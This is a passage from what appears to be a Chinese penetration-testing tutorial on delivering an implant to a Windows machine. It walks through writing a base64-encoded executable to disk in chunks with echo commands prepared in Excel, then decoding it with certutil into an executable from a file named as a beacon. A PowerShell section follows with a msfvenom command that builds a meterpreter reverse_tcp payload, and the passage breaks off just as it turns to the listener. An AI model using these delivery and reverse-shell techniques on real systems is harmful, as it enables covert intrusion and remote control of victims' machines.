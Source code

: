 和 A 列一样，在 E 列第一行，快速填充 `&& echo`。注意开头和末尾各有一个空格。

F 列直接把 D 行数字复制过来即可。

最后 G 列快速填充 `>> FileEchoStatus`，就可以了。注意开头有一个空格。

![Excel 数据处理后的结果.png](assets/1698895429-e0973e38379574c72870994f4783b170.png)

将表格另存为 txt，把第一行追加重定向，改成覆盖，防止文件已经存在导致数据错乱这种低级问题。

最后使用 Windows 自带笔记本将其中的 Tab 制表符给删除（VSCode 不知道为啥把空格也识别成 Tab），防止在命令行中自动选中文件。至少在 Windows 命令提示符中粘贴输入是这样。

```plaintext
echo    TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA     >> record && echo  2
```

![替换制表符.png](assets/1698895429-0a64d04ef8804b9998b76a195c75cdaf.png)

所有命令执行完成后，再还原成应用。

```plaintext
E:\Desktop>Certutil -decode student_raingray_beacon 1.exe
输入长度 = 396412
输出长度 = 288256
CertUtil: -decode 命令成功完成。
```

#### 2.1.6 Powershell

1.生成 PowerShell 脚本上线。

生成 ps1 脚本指定反连接地址和端口。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f psf-reflection -o attack.ps1
```

MSF 监听。
